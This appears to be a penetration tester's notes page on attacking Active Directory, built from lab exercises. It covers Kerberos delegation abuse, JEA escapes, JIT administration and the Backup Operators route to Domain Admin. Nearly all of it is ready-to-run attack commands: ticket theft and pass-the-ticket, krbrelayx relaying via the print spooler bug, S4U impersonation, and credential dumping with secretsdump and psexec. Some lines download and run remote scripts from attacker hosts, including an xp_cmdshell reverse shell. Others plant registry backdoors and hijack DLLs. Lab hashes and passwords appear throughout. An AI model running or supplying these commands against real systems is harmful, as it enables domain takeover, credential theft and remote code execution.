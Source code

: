 # Attacking AD

<details>

<summary>Unconstrained Delegation</summary>

![](<../.gitbook/assets/image (313).png>)

* Allows forwardable TGT --> frontend service is able to perform authentication on behalf of user to any service

## Enumeration

<pre class="language-powershell"><code class="lang-powershell">iex (new-object net.web-client).downloadstring('http://192.168.45.198/PowerView.ps1')
<strong>Get-DomainComputer -Unconstrained
</strong># Domain Controllers are configured with unconstrained delegation by default

#To know the IP of the target
nslookup appsrv01
</code></pre>

## Exploitation

* Must be local admin on the target (eg: appsrv01)
*   3 methods

    * Have domain admin visit the application using uncontrained kerberoast --> dump TGT of admin
      *   ```
          sekurlsa::tickets
          ```

          <figure><img src="../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>


      *   ```
          sekurlsa::tickets /export
          ```

          <figure><img src="../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>


      *   ```
          kerberos::ptt [0;1801fa]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
          ```

          <figure><img src="../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>


      *   ```powershell
          exit
          # Verify that we have the TGT
          klist
          # Laterally move to DC
          C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd.exe
          ```


    * OR Krbrelayx attack on unconstrained delegation
      *

          <figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


      * Dump the NTLM hashes for Files01 computer account (FILES01$)![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)
        *   ```powershell
            # Dump as domain user
            impacket-secretsdump CORP/adam:4Toolsfigure3@192.168.101.104
            # Dump as built-in admin
            impacket-secretsdump administrator:2J8u{2e@192.168.187.121
            ```


      * Add an SPN for `attacker.corp.com` on `FILES01$`
        *   ```powershell
            # git clone https://github.com/dirkjanm/krbrelayx.git
            python3 addspn.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -s HOST/attacker.corp.com --additional 'dc01.corp.com'
            ```


      * Add a DNS Entry for `attacker.corp.com` in Active Directory
        *   ```powershell
            python3 dnstool.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -r 'attacker.corp.com' -d '192.168.45.211' --action add 'dc01.corp.com'
            ```


      * Verify DNS Resolution for Attacker Host
        *   ```powershell
            nslookup attacker.corp.com dc01.corp.com
            ```


      * Start `krbrelayx` to Relay Authenticated TGT
        *   ```powershell
            # aes256-cts-hmac-sha1-96
            python3 krbrelayx.py -aesKey 00ba3cfd9198fa8a6dc795324242810e98c7d36d083bd811fdfe204ef30cc7a7
            ```


      * Trigger Authentication from the DC Using the Print Spooler Bug
        *   ```powershell
            python3 printerbug.py "corp.com/FILES01$"@dc01.corp.com -hashes aad3b435b51404eeaad3b435b51404ee:22a506a9cabc86c93dda21decc4b2e75 "attacker.corp.com"
            ```


        * If errors out --> rerun the impacket secretdump again to obtain the computer hashes
        * Check if got ccache file in the directory
      * Importing the ccache file
        * ```bash
          mv DC01\$@CORP.COM_krbtgt@CORP.COM.ccache administrator.ccache
          export KRB5CCNAME=administrator.ccache
          ```
      * Use the Captured TGT to Dump Credentials from the DC
        *   ```powershell
            impacket-secretsdump -k -no-pass "corp.com/DC01$"@dc01.corp.com
            ```


      * Running Impacket-PsExec for Remote Code Execution
        * ```powershell
          impacket-psexec admin@dc01.corp.com -hashes :<nt hash>
          ```



    * OR Force high-privileged authentication without any user interaction (PrintSpooler)
      *   ```powershell
          Rubeus.exe monitor /interval:5 /filteruser:CDC01$
          SpoolSample.exe <target-machine> <capture-server>
              #SpoolSample.exe CDC01 APPSRV01
          Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo…
          ```


      * Since machine account (CDC01$) is not local admin on DC, can't laterally move to it
      * Can laterally move via:
        * [Golden Ticket](persistence.md#golden-ticket)
        * [Dump administrator hash](lateral-movement.md#dump-domain-admin-hash-from-dc)

</details>

<details>

<summary>Constrained Delegation</summary>

* Solve the double-hop issue while limiting access to only the desired backend service defined in msds-allowedtodelegateto
* S4U2Self --> Allows a service to request Kerberos TGS for any user, including domain admin, without needing their passwords or hash
* S4U2Proxy --> Allows a service to take a TGS from S4U2Self and exchange it for a TGS to a backend service

![](<../.gitbook/assets/image (11) (1) (1) (1).png>)

## Enumeration

*   <pre class="language-powershell"><code class="lang-powershell"><strong>#Powerview
    </strong><strong>Get-DomainUser -TrustedToAuth
    </strong></code></pre>

    <figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Contained delegation is configured on IISSvc and it is only allowed to MSSQLSvc

## Exploitation 1

* Compromise the IISSvc account
  * ```powershell
    # Generate the NTLM hash
    .\Rubeus.exe hash /password:lab
    # Generate TGT for IISSvc
    .\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E /nowrap
    ```
* Use S4U2Proxy to get a ticket to MSSQL (SPN listed in msds-allowedtodelegateto field)
  * ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt

    # .\Rubeus.exe s4u /ticket:doIEpjCCBKKgA… /impersonateuser:administrator /msdsspn:cifs/file01.evil.com /ptt
    ```
*   Execute code on MSSQL

    * Enumerate the user logged in to MSSQL --> logged in as the domain admin

    <figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Exploitation 2

* Modify service names in memory to gain unauthorized access to different services on same host
* When TGS is returned by KDC, only server name is encrypted but not service name
* Attacker can modify service name to authenticate to different service
* For instance if msDS-AllowedToDelegateTo is set to MSSQLSvc/cdc01.prod.corp1.com
* Able to change it to access file system (cifs)
*   ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com /altservice:CIFS /ptt
    ```



## Exploitation 3

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png>)

* Obtain a Ticket Granting Ticket (TGT) for the Service Account
  *   ```powershell
      impacket-getTGT corp.com/iissvc -hashes :12bb0b468b42c76d48a3a5ceb8ade2e9
      export KRB5CCNAME=iissvc.ccache
      ```


* Obtain a Service Ticket (ST) for MSSQL Service as Administrator
  *   ```powershell
      impacket-getST -spn mssqlsvc/sql01.corp.com:1433 -impersonate administrator corp.com/iissvc -k -no-pass
      export KRB5CCNAME=administrator.ccache
      ```


* Access the SQL Server as Administrator
  *   ```powershell
      impacket-mssqlclient sql01.corp.com -k
      ```


* Check the current user and privileges inside SQL Server:
  *   ```sql
      SELECT SYSTEM_USER;
      SELECT IS_SRVROLEMEMBER('sysadmin');
      SELECT CURRENT_USER;
      ```


* Execute Reverse Shell via xp\_cmdshell in sql server
  *   ```sql
      EXECUTE AS LOGIN = 'sa';
      EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
      EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
      EXEC xp_cmdshell 'powershell -c "IEX (New-Object Net.WebClient).DownloadString(\"http://192.168.45.211/runall.ps1\")"';
      ```


* To troubleshoot: use the -dc-ip flag and the cifs/file02 SPN for the getST part and -target-ip for the psexec part
  * ```bash
    # Obtain TGT for service acc
    impacket-getTGT cowmotors.com/svc_file

    # Obtain Service Ticket for cifs/file02 as administrator
    export KRB5CCNAME=svc_file.ccache
    impacket-getST -spn cifs/file02 -impersonate administrator -dc-ip DC01 cowmotors.com/svc_file -k -no-pass

    # Check new kerberos ticket
    mv administrator@cifs_file02@COWMOTORS.COM.ccache administrator.ccache
    export KRB5CCNAME=administrator.ccache
    klist

    # PSExec to file02
    impacket-psexec administrator@file02 -target-ip file02 -k -no-pass
    ```

</details>

<details>

<summary>Resource-Based Constrained Delegation</summary>

* msDS-AllowedToActOnBehalfOfOtherIdentity
* Backend service controls which frontend services can delegate on behalf of users
* Attack against RBCD needs to happen from a computer account or a service account with a SPN

### Enumeration

* Find which computers we can modify using GenericWrite permissions
  *   ```powershell
      Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }
      ```


  * OR Specifying domain
    *   ```powershell
        Get-DomainComputer -Domain ops.comply.com | Get-ObjectAcl -ResolveGUIDs | Foreach-Object { $_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }
        ```



### Exploitation

* Add a New Computer Account (myComputer$) to the Domain
  *   ```powershell
      impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      # impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' ops.comply.com/FILE06$ -hashes :c81c9...
      # impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' COWMOTORS-INT.COM/TERENCE.FORD -k -no-pass -dc-host=dc02.cowmotors-int.com
      ```


* Configure RBCD on the Target Machine (BACKUP01$)
  *   ```powershell
      impacket-rbcd -action write -delegate-to "BACKUP01$" -delegate-from "myComputer$" corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      # impacket-rbcd -k -no-pass -action write -delegate-to "web01$" -delegate-from "myComputer$" COWMOTORS-INT.COM/TERENCE.FORD
      ```


* Obtain a Service Ticket (ST) as Administrator
  *   ```powershell
      impacket-getST -spn cifs/backup01.corp.com -impersonate administrator 'corp.com/myComputer$:h4x'
      # impacket-getST -spn 'cifs/web01.cowmotors-int.com' -impersonate Administrator -dc-ip 'dc02.cowmotors-int.com' 'cowmotors-int/myComputer$:h4x'
      ```


* Execute Commands as Administrator
  *   <pre class="language-powershell"><code class="lang-powershell"><strong>mv Administrator@cifs_backup01.corp.com@CORP.COM.ccache administrator.ccache
      </strong>export KRB5CCNAME=/home/kali/Documents/offsec/challenges/7/administrator.ccache
      impacket-psexec administrator@backup01.corp.com -k -no-pass
      </code></pre>



[Exploiting GenericWrite on Computer Object](lateral-movement.md#exploiting-genericwrite-on-computer-object)

</details>

<details>

<summary>Exploiting Just Enough Administration (JEA)</summary>

* L**imits administrative privileges** by allowing users to run only specific **approved** commands via PowerShell

- View PowerShell Command History
  *   ```powershell
      (Get-PSReadlineOption).HistorySavePath
      type C:\Users\mary\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
      ```


- Detect if JEA is Enabled on the Target Machine
  *   ```powershell
      Enter-PSSession -ComputerName files02 -ConfigurationName j_fs02
      ```


- **Check if commands are restricted:** ![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png>)
  *   <pre class="language-powershell"><code class="lang-powershell">[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
      # NoLanguageMode --> likely restricted by JEA.

      $ExecutionContext.SessionState.LanguageMode
      <strong>#If full or contrained:
      </strong>&#x26; {IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.211/runall.ps1')}
      </code></pre>


- Enumerate Available Commands in the JEA Session
  *   ```powershell
      Get-Command
      ```


  * If `Copy-Item`, `Move-Item`, or `New-Item` is available, you can **drop malicious payloads**:
    *   ```powershell
        # Exfiltrate sensitive files
        Copy-Item -Path C:\Windows\System32\drivers\etc\hosts -Destination C:\shares\mary\stolen_hosts.txt
        # DLL hijacking for privilege escalation
        Copy-Item C:\shares\payload.dll -Destination "C:\Program Files\VulnerableApp\malicious.dll"
        ```


  * If `Start-Process` is available, it can execute **arbitrary processes**:
    *   ```powershell
        Start-Process "cmd.exe" -ArgumentList "/c whoami"
        Start-Process "powershell.exe" -ArgumentList "-NoP -NonI -W Hidden -c IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/revshell.ps1')"
        ```


  * If `New-Item` and `Set-ItemProperty` are available, registry values can be modified to establish **persistence**:
    * ```powershell
      New-Item -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Backdoor" -Value "C:\malware.exe"
      ```
- Proof-of-Concept: Copying dll to program folder for DLL Hijacking
  * ```powershell
    copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"
    ```

</details>

<details>

<summary>Exploiting Just-In-Time Administration Theory</summary>

* Providing temporary, limited administrative access to resources
* Once the time is up, the privileges are revoked automatically
* Requires Privileged Access Management Feature (PAM) to be enabled

## Enumeration

*   ```powershell
    Import-Module .\Microsoft.ActiveDirectory.Management.dll
    Get-Command -Module Microsoft.ActiveDirectory.Management | Where-Object { $_.Name -like "Get-*" }
    ```

    <figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


*   ```powershell
    Get-ADOptionalFeature -Filter *
    ```

    <figure><img src="../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
*   ```powershell
    Get-NetUser mary | select memberof
    Get-NetGroup j_approve | select member
    ```



## Enumerate GPOs available in the domain

*   ```powershell
    Get-NetGPO | select displayname
    Get-NetGPO l_web01
    ```

    <figure><img src="../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Copy paste path to explorer
* View the group policies in [\\\corp.com\SysVol\corp.com\Policies\\{99EC2AB4-0FD4-406E-8FDA-BE451DEB2AA6}\Machine\Preferences\Groups](file://corp.com/SysVol/corp.com/Policies/%7B99EC2AB4-0FD4-406E-8FDA-BE451DEB2AA6%7D/Machine/Preferences/Groups)
  *

      <figure><img src="../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption><p>Adding la_web to local admin group (RID: 544) on WEB01</p></figcaption></figure>


*   ```powershell
    klist purge
    #So that we can request the new kerberos ticket
    Enter-PSSession -ComputerName WEB01
    ```



</details>

<details>

<summary>Exploiting Backup Operators To Domain Admin</summary>

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

First, Enumerate writable shares:

```bash
nxc smb 192.168.210.0/24 -u melissa -p WinterIsHere2022! --shares
```

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Exploit using [https://github.com/mpgn/BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA)

```bash
.\BackupOperatorToDA.exe -t \\ZPH-SVRCDC01.internal.zsm.local -o \\ZPH-SVRCDC01.internal.zsm.local\c$\
```

Login and download the files from smb share using smbclient:

```
smbclient //ZPH-SVRCDC01/C$ -U=internal.zsm.local/melissa
# Since the SYSTEM file is large, have to increase the timeout and iosize:
timeout 120
iosize 16384

# Download the 3 files
get SAM
get SECURITY
get SYSTEM
```

Secretsdump --> get machine account hash

```
impacket-secretsdump LOCAL -system SYSTEM -security SECURITY -sam SAM
```

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Using machine acc hash, use secretsdump to dump creds on the DC --> get Domain Admin hash

```bash
impacket-secretsdump internal.zsm.local/'ZPH-SVRCDC01$'@ZPH-SVRCDC01.internal.zsm.local -hashes :d47a6d90e1c5adf4200227514e393948
```

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

</details>

